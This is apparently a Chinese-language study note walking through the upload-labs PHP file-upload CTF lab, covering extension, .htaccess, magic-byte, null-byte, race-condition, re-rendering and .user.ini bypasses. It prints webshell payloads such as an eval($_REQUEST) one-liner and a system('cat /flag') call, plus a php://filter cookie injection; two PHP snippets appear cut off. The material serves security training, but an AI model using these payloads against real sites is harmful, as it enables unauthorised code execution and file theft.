# 47WEB攻防-PHP应用&文件上传&函数缺陷&条件竞争&二次渲染&黑白名单&JS绕过

无文件解析安全问题上，格式解析是一对一的（不能jpg解析php）

换句话来说有解析错误配置或后缀解析漏洞时才能实现格式差异解析

\#测试环境安装参考：=

https://github.com/ffffffff0x/f8x

https://github.com/fuzzdb-project/fuzzdb

https://github.com/sqlsec/upload-labs-docker

安装f8x

```
wget -O f8x-ctf https://raw.githubusercontent.com/ffffffff0x/f8x/main/f8x-ctf
bash f8x-ctf -help
```

启动f8x



docker安装

```
f8x -d 或 f8x -docker
```

进入到目录 启动docker

```
docker-compose up -d
```



=== 由于代理问题无法使用Linux进行,改用window==



在github上下载后 

```
docker-compose up -d
```



# 第一关

经过测试只能上传图片和gif文件，上传其他文件会提示错误，



打开burp intercept is on  


修改`.png`为`.php`  ==仅适用于前端过滤==



后门代码



使用哥斯拉生成



连接图片地址



## 第二关 .htaccess 文件 Apache



抓包修改内容

```
AddType application/x-httpd-php .png   //使png解析成php
```



上传后门





# 第三关





# 第四关



增加文件头部







## 第五关 黑名单



当你上传`.php`文件时，会把文件的后缀变为空  ==没有递归检测，只过滤了一次==





## 第六关 大小写



`replace`不区分大小写，文件只过滤了小写 ==在windows上是不区分大小写的，在适用于Linux==



## 第七&八关 %00截断符



%00截断符


00截断 是%00解码结果

url上 %00 （自带解码一次）

post下面 %00（手工解码一次）

## 第九关 白名单




用冷门后缀绕过，如php5   可以使用==fuzzdb-master字典==

## 第十关  逻辑漏洞





代码中先上传再判断然后不符合规定就删除，这个过程发生在瞬间，但是文件确实上传上去了

```
<?php                                                       ?>');?>
```

这里就是不更改任何东西，一直循环

```
http://127.0.0.1.nip.io:40010/upload/shell.pHP    //先抓访问的包
```

抓访问shell.php包循环



抓上传shell.php包循环



同样的方案



不断刷新访问xiao.php


## 11关 二次渲染

将文件上传，然后和原文件做笔记 使用软件 010 Editor





将后面代码写入不会改变内容的地方

```
<?php                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    
```

## ini

创建文件.user.ini



```
GIF89a
auto_prepend_file=a.jpg
```

上传.user.ini 修改Content-Type: image/jpg



上传成功


新建pass.jpg文件 直接上传

```
GIF89a
<?=eval($_REQUEST['pass']);?>
```

````
GIF89a
<?=system('cat /flag');?>
````

查看消息头



访问uploads/index.php成功出结果


另一个题目



抓包

```
Cookie: language=php://filter/read=convert.base64-encode/resource=flag
```



php://filter 是什么？

PHP 内置的 **流封装器**

可在**不执行代码的情况下读取源码**

常用于：

- 绕过 include 限制
- 读取敏感文件
- CTF 中“源码泄露

```
php://filter/read=convert.base64-encode/resource=flag
```

